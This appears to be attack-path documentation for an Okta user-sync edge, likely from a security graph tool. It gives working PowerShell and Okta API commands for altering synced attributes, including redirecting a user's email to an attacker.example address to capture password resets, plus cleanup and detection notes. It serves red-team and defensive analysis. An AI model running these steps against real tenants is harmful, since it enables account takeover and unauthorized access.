

## General Information

The non-traversable hybrid Okta_UserSync edges represent user synchronization relationships between Okta and external directories or applications. These edges indicate that user accounts are linked and synchronized between systems, but they do not by themselves prove password, session, or administrative control.



## Abuse Info

This edge means the source and destination users are linked by a synchronization relationship. It is not always directly abusable, but an attacker who controls the authoritative source user or source system can often influence the destination user's profile, lifecycle state, app assignment state, or group-rule inputs.

The first step is determining which side masters the attribute needed for the attack path. Inbound examples include Active Directory or HR systems updating Okta users. Outbound examples include Okta pushing user profile data to AD, another Okta org, or a SaaS application. For credential takeover, look for a parallel `Okta_PasswordSync`, `Okta_InboundSSO`, `Okta_IdentityProviderFor`, `Okta_ResetPassword`, or MFA-reset edge; `Okta_UserSync` alone shows identity linkage.

Using an authoritative source system:

1. Identify the source system and destination user represented by the edge.
2. Determine which attributes are synchronized and which system is authoritative for each attribute.
3. Change a source attribute that affects the destination path, such as email, login, username, department, manager, title, status, or group-rule inputs.
4. Trigger synchronization through the source connector or wait for the scheduled cycle.
5. Verify the destination user changed.
6. Continue with the edge unlocked by the change, such as receiving a reset email, satisfying a sign-on policy, entering a group rule, or gaining downstream app access.

Using Active Directory as the source for an inbound AD-to-Okta sync:

1. Change the AD user attributes that Okta imports. Use attributes that are actually mapped in the org.

    ```powershell
    Import-Module ActiveDirectory

    $AdUserSam = "jdoe"
    $TempEmail = "jdoe-reset@attacker.example"
    $TempDepartment = "Finance"

    Set-ADUser -Identity $AdUserSam `
      -EmailAddress $TempEmail `
      -Department $TempDepartment
    ```

2. Trigger the AD agent import from Okta if available, or wait for the scheduled import.

3. Verify the destination Okta user.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export DEST_OKTA_USER_ID="00u..."

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email, department: .profile.department}'
    ```

4. Use the changed Okta user state. For example, if the email change routes password recovery to attacker-controlled infrastructure, request a reset through the appropriate reset edge.

Using Okta as the source for an outbound Okta-to-app or Okta-to-Org2Org sync:

1. Set variables for the source Okta user and the synchronization application.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export SOURCE_OKTA_USER_ID="00u..."
    export SYNC_APP_ID="0oa..."
    export ORIGINAL_DEPARTMENT="Engineering"
    export TEMP_DEPARTMENT="Finance"
    ```

2. Update a mapped source attribute in Okta.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"profile\":{\"department\":\"$TEMP_DEPARTMENT\"}}" \
      "$OKTA_ORG/api/v1/users/$SOURCE_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, department: .profile.department}'
    ```

3. Trigger app-user synchronization for the linked application user when the destination is represented by an Okta application assignment.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SYNC_APP_ID/users/$SOURCE_OKTA_USER_ID/lifecycle/sync"
    ```

4. Verify Okta's view of the app user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SYNC_APP_ID/users/$SOURCE_OKTA_USER_ID" \
      | jq '{id, status, scope, syncState, profile}'
    ```

5. Verify the destination account through the destination system's API or admin UI, because the destination system is the authority for whether the synced value was applied.

If the edge links two Okta orgs through Org2Org, perform the source-side change in the source org, run or wait for the Org2Org provisioning flow, then verify the user in the target org.

## Cleanup after Abuse

Cleanup for `Okta_UserSync` means restoring the authoritative source user's attributes and lifecycle state, synchronizing again, and removing any destination-side group, assignment, or session state created by the temporary synced values.

Cleanup using Admin Console:

1. Identify the authoritative source for every changed attribute.
2. Restore those attributes in the source system, such as AD, the source Okta org, or the source SaaS application.
3. Trigger the relevant import, push, or provisioning sync where available.
4. Verify the destination user profile, lifecycle state, groups, and app assignments have reverted.
5. Manually remove destination group memberships or app assignments that were created by group rules or provisioning and did not revert.
6. Revoke sessions for the affected destination user if temporary attributes affected sign-on or authorization.

Cleanup using API:

1. Restore AD attributes if AD was the authoritative source.

    ```powershell
    Import-Module ActiveDirectory

    $AdUserSam = "jdoe"
    $OriginalEmail = "jdoe@contoso.com"
    $OriginalDepartment = "Engineering"

    Set-ADUser -Identity $AdUserSam `
      -EmailAddress $OriginalEmail `
      -Department $OriginalDepartment
    ```

2. Restore Okta source attributes if Okta was the authoritative source.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"profile\":{\"department\":\"$ORIGINAL_DEPARTMENT\"}}" \
      "$OKTA_ORG/api/v1/users/$SOURCE_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, department: .profile.department}'
    ```

3. Trigger app-user synchronization again when the destination is an app user.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SYNC_APP_ID/users/$SOURCE_OKTA_USER_ID/lifecycle/sync"
    ```

4. Verify the destination Okta user or app user has reverted.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email, department: .profile.department}'
    ```

5. Remove leftover destination group membership if a synced attribute triggered a group rule.

    ```bash
    export TEMP_GROUP_ID="00g..."

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_GROUP_ID/users/$DEST_OKTA_USER_ID"
    ```

6. Remove leftover destination app assignment if one was created only because of the temporary synced state.

    ```bash
    export TEMP_APP_ID="0oa..."

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TEMP_APP_ID/users/$DEST_OKTA_USER_ID"
    ```

7. Revoke sessions and OAuth tokens for the destination user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID/sessions?oauthTokens=true"
    ```

## Opsec Considerations

User sync abuse creates telemetry in the source system and in Okta. Watch for source-directory attribute changes, Okta import or provisioning activity, user profile changes, app-user sync operations, group-rule membership changes, and password reset attempts that occur shortly after an imported email or login change.

Changes to login, email, manager, department, or lifecycle state on privileged users are especially visible. If the attacker changes attributes in a source directory that defenders monitor separately from Okta, the source-system event may be the earliest detection point.

## References

- [Okta User API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/User/)
- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta Profile Mappings API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ProfileMapping/)
- [Okta SCIM concepts](https://developer.okta.com/docs/concepts/scim/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Microsoft Set-ADUser](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-aduser)
